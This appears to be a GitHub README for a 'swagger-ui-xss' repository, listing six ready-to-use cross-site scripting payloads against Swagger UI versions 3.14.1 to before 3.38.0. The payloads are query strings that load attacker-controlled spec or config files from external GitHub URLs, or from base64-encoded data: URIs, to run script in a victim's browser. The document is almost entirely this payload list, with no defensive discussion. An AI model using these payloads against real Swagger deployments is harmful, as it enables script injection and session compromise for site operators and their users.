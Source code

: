 # swagger-ui-xss
Swagger UI version affected: `>=3.14.1` &lt; `3.38.0`

## Payload

1. `?url=https://raw.githubusercontent.com/aydilfahri/swagger-ui-xss/main/xss-domain.yaml`
2. `?url=https://raw.githubusercontent.com/aydilfahri/swagger-ui-xss/main/xss-fetch.yaml`
3. `?configUrl=https://raw.githubusercontent.com/aydilfahri/swagger-ui-xss/main/config.json`
4. `?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2F5ZGlsZmFocmkvc3dhZ2dlci11aS14c3MvbWFpbi94c3MtZmV0Y2gueWFtbCIKfQ==`
5. `/classicapi/doc/?configUrl=data:text/html;base64,base64,ewoidXJsIjoiaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2F5ZGlsZmFocmkvc3dhZ2dlci11aS14c3MvbWFpbi94c3MtZmV0Y2gueWFtbCIKfQ==`
6. `?configUrl=https://raw.githubusercontent.com/aydilfahri/swagger-ui-xss/main/xss-fetch2.yaml`



Thanks to: https://github.com/VictorNS69/swagger-ui-xss/
